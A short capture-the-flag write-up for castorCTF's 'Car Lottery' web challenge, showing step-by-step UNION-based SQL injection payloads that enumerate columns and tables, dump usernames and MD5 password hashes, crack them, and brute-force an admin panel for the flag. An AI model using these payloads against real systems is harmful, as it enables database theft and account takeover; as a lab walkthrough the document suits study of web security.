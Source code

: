 # ## Car Lottery [WEB- 500 Point ]

> Tsami Team

# ##WRITEUP
The page displays  error messages. So there exists at least five columns.
`/search?id='1' order by 5 -- +`

check the  number of columns that are vulnerable.
`/search?id='1'UNION SELECT 1,2,3,4,5-- + `

check user and current database, and version by replace fucntion 
`http://web1.cybercastors.com:14435/search?id='1'UNION SELECT 1,@@version,database(),user(),5-- + '`


group_concat(), all the column names are diplayed on screen `cars & User`
`http://web1.cybercastors.com:14435/search?id='1'UNION SELECT 1,group_concat(table_name,0x0a),4,3,5 from information_schema.tables where table_schema=database()  -- + '`


fetches all names and passwords from the users table. 0x0a represents a space
`http://web1.cybercastors.com:14435/search?id='1'UNION SELECT 1,group_concat(username,0x0a,password),4,3,5  from Users--+--+'`'`

result : 
`admin@cybercastors.com :cf9ee5bcb36b4936dd7064ee9b2f139e,
admin@powerpuffgirls.com: fe87c92e83ff6523d677b7fd36c3252d,
jeff@homeaddress.com :d1833805515fc34b46c2b9de553f599d
,moreusers@leakingdata.com :77004ea213d5fc71acf74a8c9c6795fb``

Bruteforce MD5 hash Or use Online websites : 

`cf9ee5bcb36b4936dd7064ee9b2f139e : naruto
fe87c92e83ff6523d677b7fd36c3252d : powerpuff
d1833805515fc34b46c2b9de553f599d : pancakes
77004ea213d5fc71acf74a8c9c6795fb : fun`
`

Now we need to bruteforce Admin panel with dirb or any other tools and login as admin 

``flag : castorCTF{daT4B_3n4m_1s_fuN_N_p0w3rfu7}``



